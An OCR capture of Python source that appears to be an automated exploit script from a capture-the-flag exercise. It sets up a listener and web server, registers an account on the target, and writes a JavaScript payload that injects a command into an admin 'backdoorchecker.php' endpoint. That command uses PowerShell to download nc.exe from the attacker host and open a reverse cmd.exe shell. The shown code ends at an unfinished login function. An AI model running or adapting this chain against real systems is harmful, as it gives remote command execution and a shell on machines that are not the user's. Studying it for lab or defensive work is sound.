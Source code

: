 ```py

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    os.system("rm 0x4rt3mis.js")
    os.system("rm nc.exe")
    t.interact()

def createPayloadJS(lhost,lport):
    print("[+] Preparing the payload !! [+]")
    os.system("cp /usr/share/windows-binaries/nc.exe .")
    payload = "function getRCE(){\n"
    payload += "        var rev = new XMLHttpRequest();\n"
    payload += "        var url = 'http://localhost/admin/backdoorchecker.php';\n"
    payload += "        var data = 'cmd=dir|powershell -c \"iwr -uri " + lhost + "/nc.exe -outfile %temp%\\\\nc.exe\"; %temp%\\\\nc.exe -e cmd.exe " + lhost + " " + lport + "';\n"
    payload += "        rev.open('POST', url, true);\n"
    payload += "        rev.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');\n"
    payload += "        rev.send(data);\n"
    payload += "}\n"
    payload += "\n"
    payload += "getRCE()"
    f = open("0x4rt3mis.js", "w")
    f.write(payload)
    f.close()
    print("[+] Done !! [+]")
    
def createAccount(rhost):
    print("[+] Creating Account ! [+]")
    url = "http://%s:80/register.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "0x4rt3mis", "password": "123456", "pounds": "Submit Query"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Created ! [+]")
    
def loginAccount(rhost):
```